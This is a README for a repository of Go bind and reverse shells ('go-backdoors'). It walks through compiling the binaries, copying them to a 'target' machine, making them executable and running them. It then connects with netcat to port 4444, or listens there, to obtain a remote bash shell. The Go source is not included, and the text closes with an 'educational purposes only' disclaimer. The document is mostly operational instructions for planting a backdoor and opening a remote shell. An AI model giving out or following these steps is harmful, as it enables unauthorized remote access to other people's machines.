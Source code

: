 # go-backdoors

Simple reverse and bind shells written in Go. In order to use these backdoors, you will need to have Go installed on your machine. Notice that these shells are set up to use listeners on port 4444 by default. Feel free to change the ports used in the code to suit your needs, but be sure to adjust your **Netcat** connections accordingly. 

## Bind Shell

To use this bind shell, first compile it by running:

```bash
go build bindshell.go
```

This will create an executable file called `bindshell`. Copy this file onto the target unix machine, and give it the necessary permissions:

```bash
chmod +x ./bindshell
```

Finally, run it from whatever directory it is placed in with:

```bash
./bindshell
```

This will start the bind shell listening on port 4444. To connect to it, I recommend using **Netcat**:

```bash
nc <target-ip> 4444
```

Once you have completed this, you should be presented with a basic bash shell!

## Reverse Shell

To use the reverse shell, you will follow many of the same steps as before. First compile the code with:

```bash
go build revshell.go
```

Next, copy the created executable file `revshell` to the target machine, and give it exec permissions:

```bash
chmod +x ./revshell
```

This time, we will start a listener on our own machine in order to receive a connection from the target machine. I recommend using **Netcat** for this as well:

```bash
nc -lv 4444
```

Now whenever the reverse shell is run from the target machine, you will receive a connection to your listening port on your local machine and be granted a bash shell!

*Note: This project is for educational purposes only. I do not expect it to be perfect. If you do have any questions about it please feel free to ask. You can reach me through github (I think?) or just send me an email at nineofpine@protonmail.com*
